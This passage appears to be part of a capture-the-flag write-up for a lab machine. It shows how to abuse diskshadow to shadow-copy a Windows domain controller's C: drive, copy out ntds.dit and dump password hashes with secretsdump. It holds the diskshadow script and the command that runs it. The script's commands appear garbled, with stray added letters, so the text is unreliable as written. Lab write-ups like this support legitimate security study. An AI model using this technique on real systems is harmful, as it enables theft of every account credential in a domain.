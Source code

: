 ⇒ So we will be creating a backup volume for the c drive and then go yoink the ntds.dit. Then use secrets-dump to dump hashes :

```
set metadata C:\Windows\System32\spool\drivers\color\sss.cabs
set context clientaccessibles
set context persistents
begin backups
add volume c: alias mydrives
creates
expose %mydrive% z:s
```

- Uploading the script and running diskshadow

**diskshadow /s c:\Users\svc_backup\enox.txt**

![https://raw.githubusercontent.com/CsEnox/csenox.github.io/master/img/Blackfield%20Box%20ccad48e710034cebaaf746bd274bada3/Untitled%2015.png](https://raw.githubusercontent.com/CsEnox/csenox.github.io/master/img/Blackfield%20Box%20ccad48e710034cebaaf746bd274bada3/Untitled%2015.png)
